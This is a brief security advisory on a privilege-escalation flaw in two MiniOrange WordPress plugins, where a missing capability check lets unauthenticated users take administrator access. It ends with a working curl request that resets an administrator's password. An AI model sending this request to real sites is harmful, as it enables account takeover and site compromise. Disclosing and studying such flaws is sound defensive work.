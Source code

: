 Description
The Malware Scanner plugin and the Web Application Firewall plugin for WordPress (both by MiniOrange) are vulnerable to privilege escalation due to a missing capability check on the mo_wpns_init() function in all versions up to, and including, 4.7.2 (for Malware Scanner) and 2.1.1 (for Web Application Firewall). This makes it possible for unauthenticated attackers to escalate their privileges to that of an administrator.

curl --url 'http://your-site.tld/wp-login.php' --data 'option=mo_wpns_change_password&username=simpleadmin&new_password=P4ssw0rd!&confirm_password=P4ssw0rd!'

